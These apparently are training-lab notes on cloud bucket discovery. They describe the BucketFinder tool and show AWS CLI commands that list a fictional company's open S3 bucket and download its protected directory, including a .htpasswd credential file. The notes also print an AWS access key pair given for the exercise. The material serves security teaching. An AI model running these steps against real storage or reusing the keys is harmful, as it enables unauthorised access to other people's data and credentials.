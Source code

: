 ## 3.5 Cloud Bucket Discovery

__BucketFinder:__ 

- Any buckets it finds based on provided wordlist it checks to see if the bucket is public, private or a redirect.
- Public buckets are checked for directory indexing being enabled, if it is then all files listed will be checked using HEAD to see if they are public or private. Redirects are followed and the final destination checked.

__AWS Creds for this exercise:__

```text
aws_access_key_id = AKIAJQHVNFNMLINIZY6C
aws_secret_access_key = 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
```

```bash
# Make a bucket
aws s3 mb s3://mybucket2

# Upload file to bucket
aws s3 cp pslist.txt s3://mybucket2/
upload: ./pslist.txt to s3://mybucket2/pslist.txt

sec504@slingshot:~$ aws s3 ls s3://mybucket2/
2022-07-13 20:18:16      11780 pslist.txt

# Try to access falsimentis company bucket
aws s3 ls s3://www.falsimentis.com
                           PRE about/
                           PRE author/
                           PRE categories/
                           PRE contact/
                           PRE images/
                           PRE js/
                           PRE message_sent/
                           PRE plugins/
                           PRE protected/
                           PRE scss/
                           PRE tags/
                           PRE team/
2021-08-12 15:03:10        656 .htaccess
2021-08-12 15:03:10       5303 404.html
2021-08-12 15:03:10    3484599 company-profile.pdf
2021-08-12 15:03:11      11637 index.html
2021-08-12 15:03:11       1515 sitemap.xml

# Browse protected directory
aws s3 ls s3://www.falsimentis.com/protected/
2021-08-12 15:03:11         47 .htpasswd
2021-08-12 15:03:11      14022 sales-status.json

aws s3 sync s3://www.falsimentis.com/protected/ protected/
download: s3://www.falsimentis.com/protected/sales-status.json to protected/sales-status.json
download: s3://www.falsimentis.com/protected/.htpasswd to protected/.htpasswd
```
